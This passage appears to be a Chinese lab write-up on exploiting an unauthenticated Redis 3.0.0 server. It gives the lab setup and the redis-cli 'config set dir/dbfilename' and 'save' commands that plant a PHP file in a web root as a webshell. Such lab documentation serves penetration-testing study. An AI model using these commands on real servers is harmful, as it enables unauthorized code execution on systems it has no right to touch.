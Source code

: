 ![9](/medias/redis未授权访问控制漏洞/9.png)

靶机：

- os：ubuntu 22.04 server
- redis 3.0.0
- IP：192.168.237.140

攻击机：

- os：windows 10 ，
- IP：192.168.237.128

**建议选择kali，在kali比较舒服，选择win10比较折腾了，束手束脚**

### 写入webshell

**建议选择kali操作**

连接redis，使用config set,set,save等命令写入就可以了

```bash
redis-cli -h 192.168.237.140 -p 6379
config set dir /var/www/html
config set dbfilename 1.php
set shell "<?php phpinfo();?>"
save
```
